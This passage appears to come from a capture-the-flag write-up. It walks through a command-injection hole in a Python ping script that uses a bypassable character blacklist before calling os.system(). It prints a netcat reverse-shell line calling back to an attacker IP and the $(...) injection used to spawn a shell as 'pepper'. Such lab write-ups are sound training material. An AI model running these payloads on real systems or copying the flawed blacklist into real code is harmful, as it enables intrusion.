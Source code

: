 **SYSTEMCTL** SUID file seemed to be vulnerable to privilege escalation:

![](https://i.imgur.com/UR7jw3s.png)

### simpler.py

I moved on to check on **simpler.py** and it had a function of sending `ping` to entered IP address:

![](https://i.imgur.com/f3bEMf5.png)

I tried limiting the ping to 3 and it threw back on error message at me.

![](https://i.imgur.com/uOFbybR.png)


I took a look at the code and it turned out there were forbidden characters:

```python
forbidden = ['&', ';', '-', '`', '||', '|']
```

It seemed that if the entered command passes the blacklist, it is forwarded to `os.system()`

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Luckily, **$** character is not blacklisted so I was able to spawn a shell abusing this point. 
### Reverse Shell

I created reverse shell script on **/tmp** as such:

`echo -e '#!/bin/bash\n\nnc -e /bin/bash 10.10.16.12 443'`

![](https://i.imgur.com/vifjEj2.png)

I gave it execution using `chmod +x rev.sh` and entered path to reverse shell when prompted with entering IP:

`$(/tmp/rev/sh)`

![](https://i.imgur.com/dAP0dUr.png)

Now on my local listener, reverse shell was spawned as **pepper**:

![](https://i.imgur.com/PcHu5kz.png)


## Privesc: pepper to root
